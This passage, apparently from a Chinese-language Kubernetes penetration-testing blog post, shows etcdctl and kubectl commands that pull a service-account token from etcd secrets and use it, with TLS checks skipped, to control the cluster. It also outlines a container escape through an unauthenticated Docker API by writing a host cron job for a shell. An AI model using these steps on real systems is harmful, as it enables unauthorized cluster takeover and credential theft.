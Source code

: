 ![ca80720b59215838ed0f94b0c58e8068.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfgZmYVuBqwNCicwNSfpNvPRT6ribHmOfAVCuicR7T4fCDYuZ4hdia1PGhVA/640?wx_fmt=png&from=appmsg "")  
  
![98010b9a55f49b263401fe4e62d9d8bc.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf4w7N1TsBq0PnFcHR9HoffudIWmGyYmAsicZAUeJibBkXJ0eqGVR1bs8g/640?wx_fmt=png&from=appmsg "")  
```
./etcdctl --endpoints=https://127.0.0.1:2379/ get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fltzp
```  
  
通过该token可以获取k8s集群的权限  
```
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443 --token="" -n kube-system get pods
```  
  
![996098ae7a6ef402d429487bc3b1c3c6.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfJyULT0MUfz78YhnkzhcLfPQz6ry2EhkDVMs6oHJg163wL89zETbpcg/640?wx_fmt=png&from=appmsg "")  
  
不过这里需要注意，在kubectl 1.2的版本没有insecure-skip-tls-verify这个参数  
  
![image-20220508145028721](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfKUCE6DgUI5HbaDb9QLUZmKxOWnEpibnq1ibAArlJ5QCujM4nhrsBIl0Q/640?wx_fmt=png&from=appmsg "")  
  
  
通过kubectl opthion也没有看到这个参数，但是我们在1.16.6版本中可以看到有这个参数  
  
![63a62985b839e8dce6291f5f2074c7fc.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf0GB4Io2F5uuH3zJmSYohKbRh3GwbNuSZYTZSLW5W39Dl9X2ibVeaWFg/640?wx_fmt=png&from=appmsg "")  
  
  
![4c96c60eed61f7848b19f973f0c4c0cd.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf1G905PCRZcv9altBGnZEKuFoTgU1p68tesEwtQic86U6tf8IQCLibEOw/640?wx_fmt=png&from=appmsg "")  
### 如何安装指定版本的kubectl  
```
curl -LO "https://dl.k8s.io/release/{这里写你要下载的版本}/bin/darwin/amd64/kubectl"# 例子curl -LO "https://dl.k8s.io/release/v1.16.6/bin/darwin/amd64/kubectl"
```  
# 七、k8s+Docker会存在的问题  
  
以下举例了两个docker会造成的问题，因为k8s+docker是比较常见的组合，所以docker上存在的问题，自然也会带到k8s中，更多docker逃逸到我的博客  
- https://uzzju.com/?id=40  
  
## 1、Docker API未授权  
  
因为现在常见的搭配还是K8s+docker的组合，那么docker上存在的问题，在这个组合中也必然会存在  
  
漏洞原理：在使用docker swarm的时候，节点上会开放一个TCP端口2375，绑定在0.0.0.0上，如果我们使用HTTP的方式访问会返回404  利用思路：通过挂在宿主机的目录，写定时任务获取SHELL，从而逃逸  
  
![159875274e01300198a8b19aea8d4f1b.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfdzQYKoH8LrUE0nfWKGHNia7aibeTNZOXSoEQDKIsBFKKRg37Yv6RhDcg/640?wx_fmt=png&from=appmsg "")  
  
  
![682f06268ee7970e1c3e87a0334f0eb6.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfgTScYy2EciabbfGHaDsH2AIToUTnZricibKiaeuekGJceLKibN8KX6ZOq3Q/640?wx_fmt=png&from=appmsg "")  
```
docker ps -a | grep rce
```  
  
![c3aebdef75df8c4c0660726027429596.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfLdmpahKto5gibRxlFkhJyJHuPajQfKNgVA6ruPKb2Xia4lzPbRLbribRQ/640?wx_fmt=png&from=appmsg "")  
  